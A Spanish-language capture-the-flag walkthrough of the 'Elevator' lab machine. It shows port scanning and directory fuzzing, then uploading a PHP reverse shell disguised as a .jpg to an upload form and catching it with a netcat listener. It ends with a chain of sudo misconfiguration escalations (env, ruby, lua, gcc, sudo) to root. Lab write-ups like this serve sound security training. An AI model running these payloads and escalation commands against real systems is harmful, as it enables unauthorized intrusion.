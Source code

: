 # Elevator Machine

**Nivel:** Fácil

**Autor:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Escaneo 

Relizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

Evidenciamos un sitio web accedemos a este para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

Después de revisar el código de la página web e interactuar con esta, encontramos información relevante que podrian ser nombres de usuarios: **daphne**, **velma**, **scooby**, **shaggy**

------------------
## Enumeración 

Realizamos **fuzzing** utilizando **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

Identificamos los directorios **javascript** y **themes**. Al revisarlos, obtenemos respuestas de acceso no autorizado de parte del servidor y realizamos un **fuzzing** adicional:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

Encontramos los ficheros **archivo.html** y **upload.php** y el directorio **uploads**.

--------------
## Explotación

Al revisar la página **archivo.html**, observamos que el formulario permite la carga de ficheros **jpg**:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

Ahora intentamos subir una shell reversa en PHP, almacenada como **jpg**

Configuramos la shell [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) y lo guardamos como la extensión **jpg**. 


Nótese que hemos establecido **172.17.0.1** como la **IP** y **4444** como el **PORT** de escucha para el listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

Iniciamos el **listener** para la shell reversa con **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Ahora ejecutamos la **shell reversa** a partir del enlace obtenido desde el fichero **upload.php** al subir el **jpg** desde el formulario de **archivo.html** y obtenemos acceso inicial:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### Tratamiento de TTY

Configuramos el **TTY** para una operación cómoda en la consola:

```shell
script /dev/null -c bash 
```
Presionamos **Ctrl  +  Z**, y luego ejecutamos:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

En los comandos anteriores es necesario ajustar los valores **rows** y **columns**  con los valores obtenidos al ejecutar en una consola de la máquina atacante el comando:

```shell
stty size
```

Ahora podemos utilizar **Ctrl+L** y **Ctrl+C**.


------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

Observamos que podemos ejecutar **env** como el usuario **daphne** revisamos la documentación de [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repetimos el proceso con **sudo -l** hasta lograr escalar como **root**:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finalmente hemos podido obtener usuario como **root**:

```shell
whoami
----------------
root
```
